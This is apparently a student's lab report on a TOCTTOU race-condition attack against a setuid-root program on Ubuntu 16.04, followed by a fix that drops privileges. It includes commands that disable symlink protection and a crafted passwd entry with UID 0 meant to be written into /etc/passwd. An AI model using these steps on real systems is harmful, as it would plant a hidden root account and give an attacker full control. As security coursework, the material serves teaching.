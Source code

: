 # LAB7 - Race Condition Vulnerability

## Environment
- Ubuntu 16.04 LTS server

## Turning Off Countermeasures
```
$ sudo sysctl -w fs.protected_symlinks=0  // Sticky Symlink Protection Inactivate
```

### Target
```
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" > passwd_input
```

### Task2
```
$ gcc -o race_condition race_condition.c
$ sudo chown root race_condition
$ sudo chmod 4755 race_condition

$ gcc -o attack attack.c
$ chmod 755 check.sh
$ ./attack & ./check.sh
```
The attack program links passwd_input and /etc/pzsswd to /tmp/XYZ for infinite loop, and the check.sh runs the vulnerable race_condition program giving passwd_input as an argument while /etc/passwd hasn’t updated. After few seconds, the attacker program attacks the vulnerable program and then wins the race condition, TOCTTOU window.

### Task3
```
$ gcc -o race_condition_fixed race_condition_fixed.c
$ sudo chown root race_condition_fixed
$ sudo chmod 4755 race_condition_fixed

$ gcc -o attack attack.c
$ chmod 755 check.sh
$ ./attack & ./check.sh
```
As following the task2 process, I failed to attack the vulnerable program. That’s because the race_condition_fixed program makes EUID equals with RUID in order to disable the root privilege.